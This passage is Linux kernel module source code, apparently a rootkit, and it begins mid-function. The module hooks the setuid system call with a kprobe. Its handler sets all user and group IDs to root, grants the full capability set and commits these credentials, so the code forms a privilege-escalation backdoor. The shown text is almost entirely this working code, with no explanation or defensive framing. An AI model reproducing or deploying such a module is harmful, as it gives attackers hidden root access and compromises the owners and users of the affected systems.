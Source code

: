 ```c
    /* uid privesc */
    new_creds->uid.val=_GLOBAL_ROOT_UID;
    new_creds->euid.val=_GLOBAL_ROOT_UID;
    new_creds->suid.val=_GLOBAL_ROOT_UID;
    new_creds->fsuid.val=_GLOBAL_ROOT_UID;

    /* gid privesc */
    new_creds->gid.val=_GLOBAL_ROOT_GID;
    new_creds->egid.val=_GLOBAL_ROOT_GID;
    new_creds->sgid.val=_GLOBAL_ROOT_GID;
    new_creds->fsgid.val=_GLOBAL_ROOT_GID;

    /* capabilities privesc */
    new_creds->cap_inheritable=CAP_FULL_SET;
    new_creds->cap_permitted=CAP_FULL_SET;
    new_creds->cap_effective=CAP_FULL_SET;
    new_creds->cap_bset=CAP_FULL_SET;
    commit_creds(new_creds);
}

struct kprobe __x64_sys_setuid_hook = {
        .symbol_name = "__x64_sys_setuid",
        .post_handler = __x64_sys_setuid_post_handler,
};

static int __init rkin(void)
{
    printk(KERN_INFO "module loaded\n");
    int registered = register_kprobe(&__x64_sys_setuid_hook);
    if (registered < 0)
    {
        printk(KERN_INFO "failed to register kprobe\n");
    }
    else
    {
        printk(KERN_INFO "hooked\n");
        atomic_inc(&hooked);
    }

    return 0;
}

static void __exit rkout(void)
{
    if (atomic_read(&hooked))
    {
        unregister_kprobe(&__x64_sys_setuid_hook);
        printk(KERN_INFO "unhooked\n");
    }
}

module_init(rkin);
module_exit(rkout);
```
